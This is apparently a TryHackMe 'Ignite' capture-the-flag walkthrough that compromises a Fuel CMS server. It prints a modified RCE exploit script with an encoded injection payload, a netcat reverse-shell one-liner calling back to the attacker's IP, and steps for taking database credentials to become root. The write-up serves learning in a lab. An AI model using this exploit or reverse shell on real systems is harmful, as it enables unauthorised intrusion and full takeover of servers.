



# Try Hack Me - Ignite
A new start-up has a few issues with their web server.

## Disclaimer - Your IP address will be different!
---
## Objectives
1. Locate the User.txt

2. Locate the Root.txt
---
## Scanning and Enumeration
We are going to start this with a simple nmap scan to see what ports are open.  
Command: `nmap -T4 -sC -sV -oN nmap\inital <ip>`
Command Breakdown:  

```
-T4: speed of nmap scan is 4/5 (personal preference of mine)

-sC: Scan with default NSE scripts. Considered useful for discovery and safe

-sV: Attempts to determine the version of the service running on port

-oN: Normal output to the file normal.file
```

NMAP Results:  
From our intinal scann it seems that there is only one port open and the it 80.  
So lets open up our browser and see what shows up when we enter in the IP address of our challenge.  

```
# Nmap 7.80 scan initiated Thu Jul  9 19:15:51 2020 as: nmap -T4 -sC -sV -oN nmapinital 10.10.220.239
Nmap scan report for 10.10.220.239
Host is up (0.15s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
```  
# Recon  

It looks like we have a functioning web service running the Fuel CMS.  
  
Now if we scroll futher down on this page it seems that the created has already provided us with the URL to the log in panel and the credentials needed to log in as well.  
  
So lets navigate to the `/fuel` url and see if we are actually able to log into this CMS.  
  
Once we have entere in the credentials taht we found earlier it takes us direclty to the main dashboard for this application.  
  
Since I am not quite sure what to do with the dashboard I am going to place it on the back burner for now.  
Lets pull up searchsploit and see if we are able to find exploits for Fuel CMS.  
It looks like there is an Remote Code Execution vulnerability that we may be able to take advtange of.  
  
I make a copy of this vulnerability into an exploite folder for this challenge.  
Command: `cp /usr/share/exploitdb/exploits/linux/webapps/47138.py /media/sf_CTF/THM/Ignite/exploits/RCE.py`  
Now that we have a copy of that exploite let take a look at the content of it.  
We are going to use nano.  
Command: `nano RCE.py`  

I had to make a couple of changes to the exploite.  
The first thing that I did was remove the port number,  
Secondly I remove the proxy variable.  
This is what you should have in at the end.  
Now when we run the exploite we are given a nice `CMD:` prompt.  
This is what you should have in at the end.  
```python
url = "http://10.10.220.239"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url, proxies=proxy)
```  
As you can see we are able to run some commands remotely. When this new found power it is possible that we can create a reverse shell and then find out first flag.

  

Let's see if [pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) has any one liners that we can try and chain together with this exploit. Well, well, well it looks like there is an one liner for seting up a netcat reverse shell. How about we give it a shot.  
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.2.222 4444 >/tmp/f
```
  

Before we try and run this revser sell we are going to need to set up a netcat lisitener on out host machine.  
Command: `nc -lvnp 4444` 


Code Breakdown:
```netcat
-l: listen mode, for inbound connects

-v: verbose [use twice to be more verbose]

-n: numeric-only IP addresses, no DNS

-p: local port number
```
  
It looks like it worked! Now it is time to snoop around and see if we are able to find out user flag.  
After running the `ls` command a few times I was able to locate our first flag.  
We are going to use the `cat` command to receive the content of the `user.txt` file.   
  
<br>
## Privilege escalation
---

It is time to try and now to try and find out root flag.  
So where shall we start at. If you rember when we first accessed the Fuel CMS there was a small little information section that states a database file could be found at `/var/www/html/fuel/application/config/database.php`.  
  

Let's go check out that file and see what it contains.  
It seems like we have stumbled across the root username and password.   
  

We can take the credentials that we just found and try to upgrade our user to a root user. 
Before we start running any commands we should try and do is create a stable shell.  
This can be done by using python and the following command `python -c ‘import pty; pty.spawn(“/bin/bash”)’`.  
Once our shell has become stable we can use the `su` command to switch into our root user account. 
<br>
  
Now that our shell is stable we are going to verify that we are actually root.  
Great we are in fact root. Now lets receive the root flag.    
 

## Congratulations you have just completed the Ignite challenge!